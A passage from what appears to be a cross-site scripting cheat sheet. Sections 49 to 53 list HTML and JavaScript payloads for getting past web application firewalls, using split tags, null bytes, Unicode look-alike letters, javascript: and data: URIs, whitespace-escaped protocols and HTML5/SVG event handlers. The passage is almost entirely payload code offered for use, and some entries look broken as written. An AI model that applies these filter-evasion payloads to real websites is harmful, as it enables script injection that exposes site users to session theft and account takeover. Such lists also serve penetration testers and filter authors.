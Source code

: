 ```html
<script>/*alert*/(1)</script>
<script>/*-alert-*/(1)</script>
<script>self['ale'+'rt']/*alert*/(1)</script>
<svg/onload="al/*comment*/ert(1)">
```

### **49. Broken or Split Tags**
Splitting important parts of the script to confuse pattern matching.

```html
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<svg><scri</svg>pt>alert(1)</script>
<scri%00pt>alert('XSS')</scri%00pt>  // Null byte insertion
<scri</scri>pt>alert('XSS')</script>  // Closing the script in unexpected ways
```

### **50. WAF Bypass with Improper Unicode Handling**
Using mixed character sets that exploit improper Unicode parsing in the WAF.

```html
<scrіpt>alert(1)</scrіpt>  // Using a Cyrillic 'і' instead of the Latin 'i'
<scrīpt>alert(1)</scrīpt>  // Unicode look-alike characters
<iframe src="javas\u0063ript:alert(1)"></iframe>  // Unicode escape
```

### **51. Non-Standard Protocol Usage**
Leveraging non-standard protocols and pseudo-protocols.

```html
<iframe src="javascript:alert(1)"></iframe>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click</a>  // Data URI with base64 encoded JavaScript
<img src="javascript:alert(1)">  // Usage of `javascript:` in image src
<img src="vbscript:msgbox('XSS')">  // VBScript (in very old IE versions)
```

### **52. JavaScript Protocol Wrapping**
Bypass using different JavaScript wrappers and encodings.

```html
<a href="java&#x09;script:alert(1)">Click here</a>  // Tab character between "javascript"
<iframe src="javascript:/*-alert(1)"></iframe>
<svg><script>this.onerror=alert;throw 1</script></svg>
<a href="java&#x0D;script:alert(1)">Click here</a>  // Carriage return
```

### **53. HTML 5 and SVG Content Bypasses**
Exploiting new HTML5 features and SVG quirks to slip through WAFs.

```html
<details open ontoggle="alert(1)">Click Me</details>
<svg><use xlink:href="data:image/svg+xml,<svg xmlns='http://www.w3.org/2000/svg'><script>alert(1)</script>"></use></svg>
<meter value="2" min="0" max="10" onmouseover="alert(1)">2</meter>
<foreignObject><body onload=alert(1)></body></foreignObject>  // In SVG context
```
